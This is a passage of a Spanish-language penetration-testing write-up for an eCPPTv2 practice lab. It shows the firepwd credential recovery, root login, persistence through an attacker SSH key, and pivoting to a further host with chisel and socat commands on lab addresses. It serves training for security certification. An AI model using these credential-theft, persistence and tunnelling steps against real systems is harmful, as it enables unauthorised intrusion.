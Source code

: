 Ahora se ejecuta el firepwd y se obtienen las credenciales en texto plano

```bash
python3 firepwd
```

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 61.png)

Ahora es posible loguearse como root y ver el siguiente horcrux3.txt

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 62.png)

Ahora para crear persistencia se inserta la llave pública del atacante dentro del directorio “.ssh”.

# Fawkes

## Reconocimiento

La máquina Nagini tiene otra interfaz que podría contener más máquinas conectadas por lo que se hará un descubrimiento de hosts con el script de bash previamente usado.

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 63.png)

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 64.png)

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 65.png)

En este caso, hay dos máquinas, y gracias a su TTL, se puede saber que una es Linux (64) y la otra es Windows (128). Primero se lidiará con la Linux y se hará un escaneo de puertos.

### Uso de chisel + socat

De primeras la máquina de atacante no puede alcanzar la máquina Fawkes pero se hará que la máquina Nagini, con chisel, traiga todas sus conexiones para que sean accesibles por un puerto en la máquina del atacante y la máquina Aragog servirá de intermediario para redirigir todo el flujo de conexiones de la Nagini al servidor chisel del atacante con socat.

```bash
# En la máquina atacante transferir el chisel a la Nagini
proxychains scp chisel root@20.20.20.5:/root/chisel
```

Hacer la máquina Aragog un nodo intermediario con socat.

```bash
./socat TCP-LISTEN:1337,fork TCP:192.168.0.104:1234
```

Conectar la máquina Nagini al servidor de chisel del atacante por medio de la Aragog.

```bash
./chisel client 192.168.0.103:1337 R:9998:socks
```
